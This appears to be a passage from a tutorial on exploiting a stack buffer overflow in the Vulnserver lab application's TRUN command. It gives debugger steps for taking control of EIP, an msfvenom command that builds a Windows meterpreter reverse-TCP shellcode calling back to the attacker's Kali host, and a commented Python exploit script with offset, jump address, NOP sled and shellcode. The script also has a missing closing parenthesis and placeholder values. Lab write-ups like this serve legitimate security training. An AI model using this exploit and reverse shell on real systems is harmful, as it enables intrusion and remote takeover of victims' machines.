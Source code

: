 ```python

# Restartthe app, then run the script. Now the ESP value becomes CCCCC... just as explained in line 18 step 13. And the EIP value is BBBB.
# We hav full control over the program!.


# Restart program, run it, ctrl+g, enter the <opied memory address value>, f2 to set a breakpoint there. Run the script... we get a notification at the bottom (breakpoint at location .....), f7 to step into (you will notice that we are now executing code off of the stack all inside of our ESP or C buffer) ie We successfully jumped to a location that we can control.
```
{% endcode %}

## Step 6 - Shell code

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kaliIP LPORT=4444 -b "\x00" -f py` - this generates our shell code without the bad chars. Copy all, be weary/conscious of your buffer size.

Our new python script now looks like:



{% code title="" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket
import struct # 11 - import struct.

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.
offset = 2003 # 6 - this is our Offset point/value.
new_eip = struct.pack("<I", <our copied memory address value>) # 14 - this becomes the new EIP value, which executes what the ESP says. We can test this by setting a breakpoint in the debugger (this is our jmp esp instruction).
nop_sled = b"\x90" * 16 # 15 - defining some nops.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">

# 17 -  paste shell code here.......
shellcode = buf # 18 - renaming the shell code. We are ging to be placing the shell code after the nops.

payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * offset, # 10 - sends exactly 2003 A's to the vulnserver app.
    new_eip, # 12 - the new EIP value prints exactly after the 2003 A's, which means we have used up 2003 + 4 out of 2984bytes.
    nop_sled, # 13 - pass in the nop value.
    shellcode,
    b"C" * (total_length - offset - len(new_eip) - len(nop_sled) - len(shellcode) # 16 - we can run the script and set a breakpoint at the copied memory address value, and we see the nop showing up after the breakpoint which we can fill with our shell code.
]
# 7 - putting together our payload/
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()


```